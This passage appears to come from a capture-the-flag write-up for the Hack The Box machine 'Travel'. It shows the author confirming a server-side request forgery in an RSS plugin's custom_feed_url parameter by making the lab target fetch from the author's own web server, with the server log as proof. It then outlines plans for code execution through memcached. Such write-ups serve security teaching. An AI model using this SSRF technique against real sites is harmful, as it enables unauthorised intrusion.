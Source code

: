 Using the `debug` parameter added a bit of deserialized PHP code to the middle of the page, but there was nothing that seemed immediately useful.  I did notice that the key portion of the output was prefixed with `_xct` like described in the PHP code.

The code allows for the import of a custom URL through the `custom_feed_url` attribute, so I hosted a web server using python SimpleHTTPServer and accessed using this link: [http://blog.travel.htb/awesome-rss/?custom\_feed\_url=http://10.10.15.53:8090/test.html](http://blog.travel.htb/awesome-rss/?custom_feed_url=http://10.10.15.53:8090/test.html)

![](../../.gitbook/assets/15-blank-test.png)

Unfortunately the test did not actually load anything on the page, though I noticed that it did reach back to my server and pull the contents of the directory, including pulling some .png files automatically \(and interestingly also including a .netxml file I had in the directory from playing around with airodump-ng earlier that day.\)

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ python -m SimpleHTTPServer 8090
Serving HTTP on 0.0.0.0 port 8090 ...
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET / HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET / HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET /10-awesome-rss.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET /11-feed-xml.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:48] "GET /8-xmlrpc.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 21:04:23] "GET /test.html HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 21:04:23] "GET /test.html HTTP/1.1" 200 -
```

This confirmed the SSRF vulnerability that the rudimentary PHP WAF was trying to protect against, though I still needed to figure out how to make it run code. Storing it in a memcached key that I saw being loaded through `debug.php` seemed like a likely route.  Since directly referencing file includes in a URL using the most common methods were blocked, I needed to to use a less common method.  Searching for SSRF file inclusion bypass led me to [https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf).  

